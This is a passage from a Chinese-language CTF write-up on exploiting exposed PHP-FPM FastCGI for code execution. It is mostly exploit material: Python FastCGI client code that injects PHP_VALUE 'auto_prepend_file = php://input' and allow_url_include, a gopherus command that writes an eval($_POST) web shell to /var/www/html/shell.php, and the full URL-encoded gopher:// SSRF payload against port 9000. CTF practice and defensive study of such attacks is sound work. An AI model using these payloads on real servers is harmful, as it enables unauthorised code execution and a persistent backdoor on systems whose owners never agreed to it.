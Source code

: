 ```

    client = FastCGIClient(args.host, args.port, 3, 0)
    params = dict()
    documentRoot = "/"
    uri = args.file
    content = args.code
    params = {
        'GATEWAY_INTERFACE': 'FastCGI/1.0',
        'REQUEST_METHOD': 'POST',
        'SCRIPT_FILENAME': documentRoot + uri.lstrip('/'),
        'SCRIPT_NAME': uri,
        'QUERY_STRING': '',
        'REQUEST_URI': uri,
        'DOCUMENT_ROOT': documentRoot,
        'SERVER_SOFTWARE': 'php/fcgiclient',
        'REMOTE_ADDR': '127.0.0.1',
        'REMOTE_PORT': '9985',
        'SERVER_ADDR': '127.0.0.1',
        'SERVER_PORT': '80',
        'SERVER_NAME': "localhost",
        'SERVER_PROTOCOL': 'HTTP/1.1',
        'CONTENT_TYPE': 'application/text',
        'CONTENT_LENGTH': "%d" % len(content),
        'PHP_VALUE': 'auto_prepend_file = php://input',
        'PHP_ADMIN_VALUE': 'allow_url_include = On'
    }
    response = client.request(params, content)
    print(force_text(response))
```

#### 方法二：

gopherus工具直接打fastcgi，我觉得这个方便点

ctfhub上的题

```
python gopherus.py --exploit fastcgi
/var/www/html/index.php                 //这里输入的是一个已知存在的php文件
echo PD9waHAgZXZhbCgkX1BPU1Rbd2hvYW1pXSk7Pz4 | base64 -d > /var/www/html/shell.php
```

这儿是urlencode一次编码

```
gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH134%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00%86%04%00%3C%3Fphp%20system%28%27echo%20PD9waHAgZXZhbCgkX1BPU1Rbd2hvYW1pXSk7Pz4%20%7C%20base64%20-d%20%3E%20/var/www/html/shell.php%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
```
